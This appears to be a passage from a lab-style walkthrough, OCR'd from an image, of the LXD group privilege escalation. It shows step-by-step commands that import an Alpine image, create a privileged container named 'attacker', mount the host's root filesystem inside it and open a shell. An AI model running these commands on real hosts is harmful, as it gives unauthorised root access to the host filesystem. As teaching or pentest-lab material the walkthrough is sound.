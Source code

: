 1 - **Import the Image into LXD**  
	
**Purpose:** Load the Alpine image into LXD so it can be used to create containers.
- Import the image with the following command:

```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias alpine
```

**What happens:**

- LXD stores the image and assigns it an alias (`alpine`).
- You can now use this image to create new containers.


2 - **Create a Privileged Container**  
	
**Purpose:** Create a container that runs with `root` privileges.
- Use the `lxc init` command to create the container:

```bash
lxc init alpine attacker -c security.privileged=true
```

**What happens:**
    
- A new container (`attacker`) is created using the `alpine` image.
- The `security.privileged=true` flag allows the container to run with root privileges.

3 - **Mount the Host Filesystem**  

**Purpose:** Attach the host's root filesystem (`/`) to the container so it can be accessed from inside.
- Add the host's root directory as a device in the container:

```bash
lxc config device add attacker mydevice disk source=/ path=/mnt/root recursive=true
```

**What happens:**

- The container gains access to the host’s `/` directory.
- The `recursive=true` flag ensures all subdirectories are included.

4 - **Start the Container and Access It**  
	
**Purpose:** Start the container and get an interactive shell inside it.
- Start the container:

```bash
lxc start attacker
```

- Access the container’s shell:

```bash
lxc exec attacker /bin/sh
```

**What happens:**

- The container is launched with root privileges.
- You gain an interactive shell inside the container
